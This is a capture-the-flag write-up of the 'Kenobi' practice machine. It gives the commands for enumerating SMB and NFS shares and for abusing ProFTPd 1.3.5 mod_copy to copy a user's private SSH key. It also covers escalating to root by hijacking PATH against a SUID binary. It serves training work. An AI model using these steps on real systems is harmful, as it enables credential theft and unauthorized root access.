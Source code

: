# Kenobi

> Nashia Holloway | April 30th, 2020

## Task 1 Deploy the Vulnerable Machine

**2. Scan the machine with nmap, how many ports are open?**

```
nmap -sC -sV -A $IP -oN initial.nmap
```

![](initial.png)

## Task 2 Enumerating Samba for Shares

**1. How many shares have been found?**

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse $IP -oN shares.nmap
```

There are 3 shares. IPC$ and print$ are normal to see, however there is also an anonymous share.

![](shares.png)

**2. Connect to the share and list the files. What file is seen?**

```
smbclient //$IP/anonymous
```

Once connected, use the command `dir` to list the contents of the directory to find the file `log.txt`.

**3. What port is FTP running on?**

FTP usually runs on port 21, and we can see from the initial nmap scan that that port is open.

**4. What mount can we see?**

```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount $IP -oN nfs.nmap
```

`/var` is the mount seen.

## Task 3 Gain Initial Access with ProFtpd

**1. Use netcat to connect to the FTP port. What is the version of ProFtpd?**

```
nc $IP 21
```

`1.3.5` is the version of ProFtpd.

**2. How many exploits for ProFtpd are there?**

```
searchsploit ProFtpd 1.3.5
```
There are 3 exploits.

![](proftpd_exploits.png)

The mod\_copy module exploit can be used to copy files/directories from one place to the other on the server. Any authenticated client can use this functionality.

**4. Copy Kenobi's private SSH key using SITE CPFR and SITE CPTO commands**

```
nc $IP 21
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

**5. Mount the /var/tmp directory to our machine**

```
mkdir /mnt/kenobiNFS
mount $IP:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
```

Once mounted, copy Kenobi's SSH key to our working directory and SSH into the box.

```
cp /mnt/kenobiNFS/tmp/id_rsa .
sudo chmod 600 is_rsa
ssh -i id_rsa kenobi@$IP
```

Cat `user.txt` to grab the flag.

## Task 4 Privilege Escalation with Path Variable Manipulation

**1. Look for SUID bits. Which one looks out of the ordinary?**

```
find / -perm -u=s -type f 2>/dev/null
```

`/usr/bin/menu` doesn't look normal. Running it, 3 options appear.

![](usr_bin_menu.png)

Running `strings` on menu shows the commands used aren't running with their full path. Since the file runs as root, we can change our PATH to get a shell.

**3. Manipulate PATH to get a shell.**

```
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
```

Enter `1` to get a shell as root. The flag is in the `/root` directory.
